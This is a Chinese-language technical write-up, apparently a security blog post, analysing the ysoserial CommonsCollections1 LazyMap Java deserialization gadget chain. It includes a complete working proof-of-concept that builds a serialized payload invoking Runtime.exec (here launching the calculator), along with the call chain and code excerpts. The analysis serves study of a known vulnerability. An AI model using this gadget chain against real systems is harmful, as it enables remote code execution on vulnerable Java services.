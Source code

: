 ## ysoserial_CommonCollections1_LazyMap

本文分析yso中的利用链

本机环境：

JDK版本：jdk1.7u_51

CC版本：Commons-Collections 3.1

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;


public class CommonCollections1_yso {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map<Object, Object> map = new HashMap<>();
        Map lazymap = LazyMap.decorate(map, chainedTransformer);  //一旦调用get方法，就实现rce

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = c.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(Retention.class, lazymap);
        Map proxymap = (Map) Proxy.newProxyInstance(lazymap.getClass().getClassLoader(),new Class[]{Map.class},handler);

        Object o = cons.newInstance(Retention.class,proxymap);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(o);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
        fin.readObject();

    }
}
```

运行该poc即可弹出计算器，注意在idea中调试时，需要将idea设置如下：

![image-20220310193842876](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220310193842876.png)

这是由于IDEA调试器会调用一些toString之类的方法，导致不经意间触发了命令。

## POC分析

利用链：

```java
ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
```

 这条链的前半部分和`TransformedMap`链相同，我们着重分析后半部分。

### LazyMap

我们先看第一部分POC：

```java
Map<Object, Object> map = new HashMap<>();
Map lazymap = LazyMap.decorate(map, chainedTransformer);  //一旦调用get方法，就实现rce
```

LazyMap和TransformedMap类似，都来自于Common-Collections库，并继承AbstractMapDecorator。LazyMap的漏洞触发点和TransformedMap唯一的差别是，TransformedMap是在写入元素的时候执行transform，而LazyMap是在其get方法中执行的 factory.transform 。

```java
public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        } else {
            this.factory = factory;
        }
    }
```

在`LazyMap.decorate`方法中，会将传入的`chainedTransformer`作为Lazymap的factory属性

```java
 public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
```

在`LazyMap.get`方法中，如果map中没有key，就会调用factory的transform方法，来创造value并且放到map中，由于调用了transform方法，触发实现命令执行。

![image-20220310205203538](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220310205203538.png)

### AnnotationInvocationHandler

对于TransformedMap，`sun.reflect.annotation.AnnotationInvocationHandler `的readObject方法在调用setValue设置值的时候就会触发TransformedMap里注册的Transform，进而执行恶意代码。

但AnnotationInvocationHandler 的readObject方法中并没有直接调用到Map的get方法。这里我们要用到该类的invoke方法。

AnnotationInvocationHandler类的invoke方法有调用到get： 

![image-20220310210724800](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220310210724800.png)

看看这一部分POC：

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = c.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(Retention.class, lazymap);
        Map proxymap = (Map) Proxy.newProxyInstance(lazymap.getClass().getClassLoader(),new Class[]{Map.class},handler);

        Object o = cons.newInstance(Retention.class,proxymap);
```

`Proxy.newProxyInstance `的第一个参数是ClassLoader，我们用默认的即可；第二个参数是我们需要

代理的对象集合；第三个参数是一个实现了InvocationHandler接口的对象，里面包含了具体代理的逻

辑。

这一部分涉及到动态代理的知识，**动态代理中当调用代理的方法时会进行触发handler中的invoke**

我们看到AnnotationInvocationHandler类的readObject方法：

![image-20220310220952689](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220310220952689.png)

这里参数 memberValues 可控，如果它是个代理类，那么就会调用memberValues对应handler的invoke方法，cc1中将handler设置为AnnotationInvocationHandler（其实现了InvocationHandler，所以可以被设置为代理类的handler）。

而在invoke方法中对this.memberValues调用了get方法，如果此时this.memberValues为我们的map，那么就会触发LazyMap#get，从而完成触发rce。

简单来说就是，**代理一个Map类型，反序列化时通过 readObject 来触发 invoke，再触发 get 再触发 transform**从而执行恶意代码。









参考：

http://wjlshare.com/archives/1502
